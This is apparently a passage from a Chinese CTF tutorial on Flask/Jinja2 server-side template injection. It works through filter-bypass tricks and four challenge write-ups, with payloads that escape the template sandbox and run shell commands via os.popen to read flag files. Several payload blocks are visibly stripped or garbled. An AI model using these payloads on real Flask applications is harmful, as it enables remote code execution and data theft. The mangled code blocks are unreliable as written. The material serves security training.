

上上图所示，我们可以通过 &lt;generator object select_or_reject at 0x7fe339298fc0> 字符串获取的字符有：尖号、字母、空格、下划线和数字。



如上图所示，可以通过 &lt;TemplateReference None> 字符串获取的字符有：尖号、字母和空格。

```plain
{{org}}
```



如上图所示，可以获得的字符除了字母以外还有百分号，这一点比较重要，因为如果我们控制了百分号的话我们可以获取任意字符。

```plain
{{org}}
```



- 对于获取数字，除了当前出现的那几种外我们还可以有以下几种方法：

```plain
{{num}}    # 0, 通过int过滤器获取数字
{{num}}    # 24, 通过length过滤器获取数字
    # 通过float过滤器获取点 .
```

有了数字0之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算。

### 5.3 CTF实战

#### 5.3.1 [2020 DASCTF 八月安恒月赛]ezflask

题目源码：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from flask import Flask, render_template, render_template_string, redirect, request, session, abort, send_from_directory
app = Flask(__name__)


@app.route("/")
def index():
    def safe_jinja(s):
        blacklist = ['class', 'attr', 'mro', 'base',
                     'request', 'session', '+', 'add', 'chr', 'ord', 'redirect', 'url_for', 'config', 'builtins', 'get_flashed_messages', 'get', 'subclasses', 'form', 'cookies', 'headers', '[', ']', '\'', '"', '{}']
        flag = True
        for no in blacklist:
            if no.lower() in s.lower():
                flag = False
                break
        return flag
    if not request.args.get('name'):
        return open(__file__).read()
    elif safe_jinja(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'wendell'
    template = '''

    <div class="center-content">
        <p>Hello, %s</p>
    </div>
    <!--flag in /flag-->
    <!--python3.8-->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000)
```

可以看到题目过滤的死死地，最关键是把attr也给过滤了的话，这就很麻烦了，但是我们还可以用过滤器进行绕过。

在存在ssti的地方执行如下payload：

```plain
{{org}}
# 或 {{org}}
```



可以看到，我们得到了一段字符串：`&lt;generator object select_or_reject at 0x7f3684f2f3e0>`，这段字符串中不仅存在字符，还存在空格、下划线，尖号和数字。也就是说，如果题目过滤了这些字符的话，我们便可以在 `&lt;generator object select_or_reject at 0x7f3684f2f3e0>` 这个字符串中取到我们想要的字符，从而绕过过滤。

然后我们在使用list()过滤器将字符串转化为列表：

```plain
{{orglst}}
```



如上图所示，反回了一个列表，列表中是 `&lt;generator object select_or_reject at 0x7f3684f2f3e0>` 这个字符串的每一个字符。接下来我们便可以使用使用pop()等方法将列表里的字符取出来了。如下所示，我们取一个下划线 _：

```plain
{{xhx}}    # _
```



同理还能取到更多的字符：

```plain
{{spa}}    # 空格
{{xhx}}    # _
{{zero}}    # 0
{{seven}}    # 7
......
```

这里，其实有了数字0之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算，如下示例：

```plain
    # 0
{{one}}    # 1
    # 2
    # 3
    # 5
#      注意, 这样的加号的是不行的,只能用减号配合abs取绝对值了
......
```



通过上述原理，我们可以依次获得构造payload所需的特殊字符与字符串：

```plain
# 首先构造出所需的数字:
    # 0
    # 1
    # 2
    # 4
    # 5
    # 7

# 构造出所需的各种字符与字符串:
      # _
        # 空格
         # .
        # 左括号 (
         # 右括号 )
          # 单引号 '

    # 字符 c
    # 百分号 %
    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    # 使用%c构造斜杠 /
    # builtins
    # import
    # popen
    # os
    # cat
    # flag
    # eval
    # read
    # __builtins__
```

将上面构造的字符或字符串拼接起来构造出 __import__('os').popen('cat /flag').read()：

```plain

```



如上图所示，成功构造出了 __import__('os').popen('cat /flag').read() 。

然后将上面构造的各种变量添加到SSTI万能payload里面就行了：

```plain
    # globals
     
            # builtins
                # eval
                {{b(pld)}}    # eval("__import__('os').popen('cat /flag').read()")
            
        
    

```



所以最终的payload为：

```plain
http://192.168.173.66:5000/?name={% set slas = bfhc%((four~seven)|int) %}{{b(pld)}}
```

#### 5.3.2 [2021 MAR & DASCTF]baby_flask

源码获取：[📎baby_flask.zip](https://www.yuque.com/attachments/yuque/0/2023/zip/265641/1685340345415-de37dda4-68cb-4aeb-8ed6-1051849ab278.zip)

在 /getname?name= 处存在SSTI。



F12查看源代码发现提示过滤了一下字符：



过滤的死死地，甚至将所有的数字都过滤了。我们仍然可以使用通过滤器进行绕过，经过之前那道题的演示，我们可以很容易的构造出被过滤了的字符或字符串。

Payload构造过程如下：

```plain
# 首先构造出所需的数字: 
    # 0, 也可以使用lenght过滤器获取数字
    # 1
    # 2
    # 4
    # 5
    # 3
    # 9
    # 7

# 构造出所需的各种字符与字符串: 
    # 空格
    # .

    # 字符 c
    # 百分号 %
    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    # 使用%c构造斜杠 /
{% set yin = bfhc%((three~nine)|int) %}    # 使用%c构造引号 '
{% set xhx = bfhc%((nine~five)|int) %}    # 使用%c构造下划线 _
{% set right = bfhc%((four~one)|int) %}    # 使用%c构造右括号 )
{% set left = bfhc%((four~zero)|int) %}    # 使用%c构造左括号 (

    # builtins
    # import
    # popen
    # os
    # cat
    # flag
    # eval
    # read
    # __builtins__

    # init
    # globals
    # items

# 将上面构造的字符或字符串拼接起来构造出 __import__('os').popen('cat /flag').read(): 


# 然后将上面构造的各种变量添加到SSTI万能payload里面就行了: 
    # globals
     
            # builtins
                # eval
                {{b(pld)}}    # eval("__import__('os').popen('cat /flag').read()")
            
        
    

```

最后的payload如下

```plain
{% set slas = bfhc%((four~seven)|int) %}{% set yin = bfhc%((three~nine)|int) %}{% set xhx = bfhc%((nine~five)|int) %}{% set right = bfhc%((four~one)|int) %}{% set left = bfhc%((four~zero)|int) %}{{b(pld)}}
```


#### 5.3.3 [NCTF2018]flask真香

环境部署

```plain
docker run -d -p 5000:5000 registry.cn-hangzhou.aliyuncs.com/eagleslab/ctf:flaskhaha
```

打开题目一看，是一个炫酷的demo演示，这种demo一般是没有啥东西好挖的。首先F12信息收集，发现Python版本是3.5.2，没有Web静态服务器。


随便点开第二个demo发现404了，这里注意到404界面是Flask提供的404界面，按照以往的经验，猜测这里存在SSTI注入。

先尝试简单的payload：


从这里可见，毫无疑问的存在SSTI漏洞了。

那么就来康康到底有没有WAF，有的话被过滤了哪些。经过一番测试，确实很多东西都被过滤了，而且是正则表达式直接匹配删去，无法嵌套绕过。不完整测试有以下：

```plain
config
class
mro
args
request
open
eval
builtins
import
```

从这里来看，似乎已经完全无法下手了。因为request和class都被过滤掉了。

卡在这里以后，最好的办法就是去查Flask官方文档了。从Flask官方文档里，找到了session对象，经过测试没有被过滤。更巧的是，session一定是一个dict对象，因此我们可以通过键的方法访问相应的类。由于键是一个字符串，因此可以通过字符串拼接绕过。

```plain
{{session['__cla'+'ss__']}}
```


访问到了类，我们就可以通过 __bases__ 来获取基类的元组，带上索引0就可以访问到相应的基类。由此一直向上我们就可以访问到最顶层的object基类了。（同样的，如果没有过滤config的话，我们还可以利用config来逃逸，方法与session的相同）


有了对象基类，我们就可以通过访问 __subclasses__ 方法再实例化去访问所有的子类。同样使用字符串拼接绕过WAF，这样就实现沙箱逃逸了。

```plain
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()}}
```


SSTI目的无非就是两个：文件读写、执行命令。因此我们核心应该放在file类和os类。而坑爹的是，Python3几乎换了个遍。因此这里得去看官方文档去找相应的基类的用处。

我还是从os库入手，直接搜索“os”，找到了 os._wrap_close 类，同样使用dict键访问的方法。猜大致范围得到了索引序号，我这里序号是343


```plain
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[343]}}
```


我们调用它的 __init__ 函数将其实例化，然后用 __globals__ 查看其全局变量。

```plain
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[343].__init__.__globals__}}
```


确认存在“popen” 

```plain
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[343].__init__.__globals__['po'+'pen']('ls /').read()}}
```


```plain
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[343].__init__.__globals__['po'+'pen']('cat /Th1s__is_S3cret').read()}}
```

成功拿到flag


#### 5.3.4 [NCTF2018]Flask PLUS

环境部署

```plain
docker run -d -p 5000:5000 registry.cn-hangzhou.aliyuncs.com/eagleslab/ctf:flaskplus
```

看到又是Flask，后面又加了PLUS，想必内容肯定没变，应该是过滤内容增加了。

打开题目康康，果然还是demo，随便造一个404，还是那个界面。

直接拿上一道题的payload去找所有的类，果然还是那么多。找到 os._wrap_close 类，打一发上次的payload，结果炸了：


也就是说，这里更新了过滤的内容，需要bypass。

我们来探测了一下，发现这次又加了一些过滤：

```plain
__init__
file
__dict__
__builtins__
__import__
getattr
os
```

到这里，我们本地机测试一下，看看有哪些方法我们可以用的：


这里我们注意到了__enter__方法，查看其内容，发现其竟然有 __globals__ 方法可用，也就是说这个__enter__方法与 __init__ 方法一模一样。

```plain
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[160].__enter__.__globals__['po'+'pen']('ls /').read()}}
```


```plain
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[160].__enter__.__globals__['po'+'pen']('cat /Th1s_is__F1114g').read()}}
```


### 5.4 没有回显的 SSTI

当目标存在 SSTI 漏洞但是没有payload执行的回显时，我们可以使用 os.popen 和 curl 将执行结果外带出来。

